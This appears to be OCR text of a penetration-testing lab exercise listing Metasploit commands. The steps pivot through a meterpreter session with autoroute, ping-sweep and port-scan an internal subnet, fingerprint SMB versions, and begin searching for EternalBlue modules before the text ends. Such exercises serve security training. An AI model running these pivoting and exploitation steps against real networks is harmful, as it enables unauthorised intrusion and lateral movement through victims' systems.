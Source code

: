 route (identify the internal IP subnet)

background

sessions (make note of the meterpreter session \#)

\# Create a pivot using meterpreter as a

\# pipeline into the internal network

search autoroute

use post/multi/manage/autoroute

set session 1

run

\# Conduct a ping sweep of the internal network

search ping_sweep

use post/multi/gather/ping_sweep

show options

set rhosts 10.10.10.0/24

set session 1

run (make note of the discovered IP addresses)

\# Port scan the internal hosts

search portscan

use auxiliary/scanner/portscan/tcp

show options

set ports 80,135,139,445,1433,3389

set rhosts 10.10.10.10-12

run

\# ID the internal host OS versions

search scanner/smb

use auxiliary/scanner/smb/smb_version

show options

set rhosts 10.10.10.10-12

set threads 3

run (see if the scan identifies the OS-is one of them Server 2016?)

\# Attempt an Eternal Blue PSEXEC buffer overflow attack against
Server2016

search eternal
